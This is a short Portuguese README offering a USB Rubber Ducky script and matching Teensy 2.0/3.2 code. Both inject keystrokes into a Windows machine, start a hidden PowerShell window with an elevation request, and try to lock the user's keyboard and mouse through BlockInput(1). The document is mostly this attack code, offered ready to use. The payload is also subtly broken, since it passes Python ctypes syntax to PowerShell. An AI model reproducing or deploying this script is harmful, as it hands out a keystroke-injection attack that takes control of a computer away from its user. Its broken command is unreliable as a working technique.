 # Rubber Ducky Script para Bloquear Teclado e Mouse
## Script Ducky
<img src="https://camo.githubusercontent.com/d65e5e6cf259a084a5d6145b814b7e86d96841a2346f6b91cfb5eb65af6d05a6/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4d61726b646f776e2d3030303030303f7374796c653d666f722d7468652d6261646765266c6f676f3d6d61726b646f776e266c6f676f436f6c6f723d7768697465">

```ducky
DELAY 500
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -Command "& {Start-Process PowerShell -ArgumentList 'ctypes.windll.user32.BlockInput(1)' -Verb RunAs}"
ENTER
```
### O que esse script faz?
- Abre o Executar (Windows + R)
- Executa o PowerShell em modo administrador
- Bloqueia o teclado e mouse via `BlockInput(1)`


## Código para Teensy 2.0 ou 3.2

```cpp
void setup() {
    Keyboard.set_modifier(MODIFIERKEY_GUI);
    Keyboard.set_key1(KEY_R);
    Keyboard.send_now();
    delay(500);
    Keyboard.set_modifier(0);
    Keyboard.set_key1(0);
    Keyboard.send_now();
    
    delay(500);
    Keyboard.print("powershell -WindowStyle Hidden -Command \"& {Start-Process PowerShell -ArgumentList 'ctypes.windll.user32.BlockInput(1)' -Verb RunAs}\"");
    delay(500);
    
    Keyboard.set_key1(KEY_ENTER);
    Keyboard.send_now();
    delay(100);
    Keyboard.set_key1(0);
    Keyboard.send_now();
}

void loop() {
}
```

### Créditos: Ivar Satierf

